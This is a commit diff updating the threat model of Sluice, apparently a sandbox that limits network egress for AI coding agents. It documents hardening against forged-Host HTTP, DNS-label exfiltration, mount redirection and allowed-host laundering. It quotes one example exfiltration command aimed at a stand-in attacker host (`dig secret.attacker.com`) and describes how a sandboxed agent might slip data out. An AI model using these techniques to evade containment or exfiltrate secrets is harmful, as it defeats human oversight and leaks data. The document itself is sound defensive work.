

Before and after one commit to Pyronewbic/Sluice, a Markdown page: THREAT_MODEL.md, 2 parts joined by grey strips. Shown at 88% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: reflect the audit-hardening guarantees (threat model + policy)
Document the guarantees the 10 hardening fixes strengthen, in the source-of-truth files:

- THREAT_MODEL.md: intercepted plaintext HTTP is now Host-verified against the connected
  IP (host_verify_strict) so a forged Host to an arbitrary IP is refused; the git
  common-dir mount is taken only when the worktree linkage verifies back to this repo; an
  unreadable in-box egress audit records 'unavailable' and fails the byte gate closed; the
  v6-closed assertion is the stack-absent/disable_ipv6/ip6tables-DROP disjunction; residual
  one-liner + review footer updated.
- docs/policy.md: a local allow wildcard that would cover a denied host refuses to run
  (deny is final) - the one fatal exception to otherwise-non-fatal deny.

README/SECURITY stay high-level and defer to THREAT_MODEL (no change).

```diff
--- a/THREAT_MODEL.md
+++ b/THREAT_MODEL.md
@@ -78,8 +78,10 @@ The guarantees below hold only while these do:
   `disable_ipv6` set, or `ip6tables` `OUTPUT` `DROP`) - so a silently-failed default-DROP can't leave
   egress open while the box reports `ready`.
 - **IP-literal / DNS / IPv6 bypasses** -> a direct-IP HTTPS connection has no SNI ->
-  terminated; IPv6 is disabled entirely (we proxy v4 only, so a dual-stack app can't slip out over
-  v6). **DNS resolution is scoped to the egress allowlist**: dnsmasq forwards only allowlisted names,
+  terminated; an intercepted plaintext-HTTP request is allowed by `Host`, which squid verifies against
+  the IP the client actually connected to (`host_verify_strict`), so a forged `Host: <allowlisted>` to
+  an arbitrary IP is refused; IPv6 is disabled entirely (we proxy v4 only, so a dual-stack app can't
+  slip out over v6). **DNS resolution is scoped to the egress allowlist**: dnsmasq forwards only allowlisted names,
   and the firewall lets only it (not app code) reach a resolver - so an agent can't tunnel exfil as
   DNS labels to an off-allowlist authoritative nameserver (`dig secret.attacker.com`): a non-allowlisted
   name is answered locally with a dead sink (`192.0.2.1`, never forwarded), so the query never reaches
@@ -93,7 +95,9 @@ The guarantees below hold only while these do:
   firewall opens a matching inbound ACCEPT for just those ports.
 - **Reading/altering the rest of your machine** -> only the project dir (and its git
   common dir, for worktrees) is mounted. Nothing else is visible by default; `SLUICE_MOUNTS`,
-  `SLUICE_STATE_DIRS`, and `SLUICE_OVERLAY_DIRS` add only what the config author lists.
+  `SLUICE_STATE_DIRS`, and `SLUICE_OVERLAY_DIRS` add only what the config author lists. The git
+  common-dir mount is taken only when the worktree linkage verifies back to *this* repo, so a box that
+  rewrites its own (writable) `.git` to point elsewhere can't redirect the mount at an unrelated repo.
 - **Reading in-repo secrets (opt-in mask)** -> the project dir is mounted read-write,
   *including* its own `.env`/key files - "can't read your secrets" historically meant files
   *outside* the repo. `SLUICE_MASK` closes the in-repo gap: matching files get an empty
@@ -208,7 +212,9 @@ checks the chain). Precisely what that buys:
 - **Captured host-side from squid's log.** The launcher reads the proxy's access log as root over
   `exec`; the in-box workload (uid 1000) can write neither that log nor the host-side store, so it
   cannot forge or erase a reached/blocked entry. The attestation is bounded by squid-log integrity,
-  not by the workload behaving.
+  not by the workload behaving. If the in-box read itself can't run (e.g. the workload exhausts the
+  pids cgroup so `exec` can't fork), the receipt records an explicit `unavailable` and `sluice egress`
+  exits non-zero (the `SLUICE_EGRESS_MAX_BYTES` gate fails closed) rather than reading as zero egress.
 - **Tamper-evident, not tamper-proof.** The `prev`/`self` hash chain makes any edit, reorder, or
   deletion of a *past* record detectable by `--verify`; it does not stop a host with write access from
   rebuilding the whole chain. For non-repudiation, `--export` records into a store the producer can't
@@ -219,8 +225,9 @@ checks the chain). Precisely what that buys:
 
 ## Residual risk, one line
 
-Egress is **hostname-filtered** (squid splice) with IPv6 off, direct-IP blocked, and **DNS scoped to
-the allowlist**, so the IP-rotation / direct-IP / DoH / DNS-label / v6 gaps are closed. The remaining
+Egress is **hostname-filtered** (squid splice) with IPv6 off, direct-IP and forged-Host HTTP blocked,
+and **DNS scoped to the allowlist**, so the IP-rotation / direct-IP / forged-Host / DoH / DNS-label / v6
+gaps are closed. The remaining
 sharp edge is **allowed-host laundering**: because we splice (never decrypt), data hidden in a request
 to an *allowed* host isn't inspected. Keep `SLUICE_ALLOW_DOMAINS`/`SLUICE_ALLOW_IPS` minimal (the
 latter port-scoped) and never allow a host an attacker can also write to - `sluice` flags such a host
@@ -235,5 +242,8 @@ _Last reviewed 2026-06-11 against sluice 0.8.0 (released) + the post-release har
 (default-superset / browser / audit), the egress work (allowlist-scoped DNS, port-scoped + validated
 `SLUICE_ALLOW_IPS`, laundering-host gate, durable egress receipt + `SLUICE_EGRESS_MAX_BYTES`), in-repo
 secret masking (`SLUICE_MASK`), the DoH-filtered live `learn` reload, the stripped-setuid base, and the
-boot self-test's default-DROP policy assertions. Revisit when the egress path, mount model, or runtime
-options change._
+boot self-test's default-DROP policy assertions. Hardened 2026-06-13 from an adversarial audit:
+clean-PATH root execs (no uid-1000 PATH-shadow privesc), `host_verify_strict` (forged-Host HTTP),
+validated worktree common-dir mount, case-insensitive + wildcard-coverage DoH filter, fail-closed egress
+audit, sanitized `doctor` output, policy deny over a covering allow wildcard, and the IPv6-closed
+disjunction. Revisit when the egress path, mount model, or runtime options change._
```
Also changed, not shown: docs/policy.md (+3 -1 lines).
